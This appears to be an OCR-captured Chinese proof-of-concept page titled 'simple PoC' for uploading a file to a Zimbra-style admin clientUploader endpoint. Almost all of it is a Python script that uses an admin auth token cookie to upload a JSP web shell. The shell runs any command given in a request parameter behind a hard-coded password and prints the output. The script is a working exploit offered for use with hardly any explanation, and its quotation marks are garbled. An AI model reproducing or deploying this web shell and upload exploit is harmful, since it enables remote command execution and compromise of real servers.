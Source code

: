 ![image](img/3271f5c5d5259c08d367b2d15ac432c7.png)

**简易poc**

```
import requests `file= {

‘filename1’:(None,“whocare”,None),

‘clientFile’:(“sunian.jsp”,r’<%if(“023”.equals(request.getParameter(“pwd”))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter(“i”)).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>’,“text/plain”),

‘requestId’:(None,“12”,None),

}

headers ={

“Cookie”:“ZM_ADMIN_AUTH_TOKEN=0_eb68a2a147c98c6d0c2257d7638c4f1256493b28_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313539323733343831303035313b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d393a3433323433373532323b”,#改成自己的admin_token

“Host”:“foo:7071”

}

r=requests.post(“[https://192.168.37.137:7071/service/extension/clientUploader/upload](https://192.168.37.137:7071/service/extension/clientUploader/upload)”,files=file,headers=headers,verify=False)

print(r.text)` 
```

![2.png](img/d2f468ed1b2120f405e0a506089b4940.png)
